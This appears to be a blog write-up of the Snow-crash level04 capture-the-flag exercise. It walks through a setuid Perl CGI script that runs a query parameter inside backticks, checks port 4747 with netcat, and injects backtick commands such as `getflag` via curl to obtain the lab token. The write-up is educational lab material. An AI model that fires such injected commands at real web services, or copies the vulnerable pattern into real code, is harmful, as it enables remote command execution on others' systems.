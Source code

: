 ```yaml
---
title:  "[Snow-crash] Level04"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - CyberSecurity
  - Github
  - Git

toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
categories:
  - ecole42
---
```


#### 1. The password of `level04` is the token that got from `level03`.

```bash
qi0maab88jeaj46qoumi7maus
```
#### 2. So, try login to `level04` with the password we got from `level03` and try to put the command 'ls -la'. We can see the file 'level04'. 
```bash
level03@SnowCrash:~$ su level04
Password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```
#### 3. Let's go inside in level04. 
```bash
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ ./level04.pl
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.23",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html
```

We can see A file with `.pl` extension. 

So, what is a PL file? 

A file with .pl extension is a `Perl Script` file that is a scripting language. 

```bash
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This is a simple `CGI(Common Gateway Interface) script` that takes a parameter "x" from the query string and prints the result of runnig the command specified by the parameter using the `echo` commmand.

<details>
<summary> Note: What is CGI?  </summary>
<br>
What is CGI? : CGI, or Common Gateway Interface, is a standard interface that enables communication between a web server and external programs or scripts. It allows for the creation of dynamic web pages, processing user input, and interaction with databases.
</details>

<br>
<details>
<summary> Note: What is query?  </summary>
<br>
In the context of the Perl CGI script provided, the "query" refers to the string of parameters and their values that are passed to the script through the URL when it is accessed.
<br><br>
This string typically follows a question mark (?) in the URL and consists of key-value pairs separated by ampersands (&).
<br><br>
For example, if you access the script via a URL like this:
<br><br>

http://example.com/cgi-bin/script.cgi?x=ls%20-l

<br><br>
In this URL, the query string is x=ls%20-l. Here, x is the parameter name, and ls%20-l is its value. The %20 is a URL-encoded representation of a space character.
<br><br>
So, in this example, the query is x=ls%20-l, where the parameter x is assigned the value ls -l. When the Perl CGI script is executed with this query, it retrieves the value of the x parameter (ls -l in this case) and executes it as a command.
</details>

<br>
<details>
<summary> Details for the perl script </summary>
<br>

1. `#!/usr/bin/perl`: This is a hashebang line specifying the path to the Perl interpreter to be used to execute this script.
<br><br>

2. `use CGI qw{param};`: This line imports the param function from the CGI module. The param function is used to retrieve the values of parameters from the query string.
<br><br>

3. `print "Content-type: text/html\n\n";`: This line sends an HTTP header indicating that the content is of type "text/html". The double newline (\n\n) separates the header from the body.
<br><br>

4. `sub x { ... }`: This defines a subroutine (function) named "x". It takes one parameter and assigns its value to the variable $y.
<br><br>

5. `$y = $_[0];`: This line assigns the value of the first (in this case, only) argument passed to the subroutine to the variable $y.
<br><br>

6. `print echo $y 2>&1;`: This line prints the result of the command specified in $y. Backticks (``) are used to execute the command, and `2>&1` redirects both standard output and standard error to the output. This is a common technique to capture both normal output and error messages.
<br><br>

7. `x(param("x"));`: This line calls the subroutine "x" using the value of the "x" parameter from the query string.
<br><br>

In summary, the script takes a parameter named "x" from the query string, uses it as a command, executes the command, and prints the result.
<br>
</details>
<br>

We can see another interesting thing in that perl script.
The script indicates that 

```bash
# localhost:4747
```

Maybe, there is something on the port 4747. 

#### 4. Let's check on the port 4747. 

`nc -zv` allows to check connection to 4747 without sending any data and verbose mode.

<details>
<summary> What is 'nc' command in Linux </summary>
<br>
1. nc : This is the command itself, which is short for "netcat." Netcat is a versatile networking utility for reading from and writing to network connections using TCP or UDP protocols.
<br>
2.  -z: This option tells nc to scan for open ports rather than initiating a data transfer. When used with the -v option, it prints verbose output, indicating whether the connection was successful or not.
<br>
3.  -v: This option stands for "verbose" and instructs nc to provide more detailed output, including the status of each connection attempt.
<br>
So, when you run nc -zv, you are instructing Netcat to attempt to connect to a specified host and port without sending any data (-z), while also providing verbose output (-v) to show the result of each connection attempt. This is commonly used for port scanning to check if a port on a remote system is open or closed.
<br>
</details>
<br>

```bash
level04@SnowCrash:~$ nc -zv localhost 4747
Connection to localhost 4747 port [tcp/*] succeeded!
```

#### 5. Now, combine numbers 3 and 4 and  let’s send data using the `x parameter` and `port 4747` with `curl` command.


```bash
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`whoami`'
flag04
```

We got the `Flag04` with the whoami parameter.

Maybe we can try again with x parameter with getflag. And here we go, we got the flag :)
```bash
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```


#### 6. We got a token for next level05

```
ne2searoevaevoem4ov4ar8ap
```

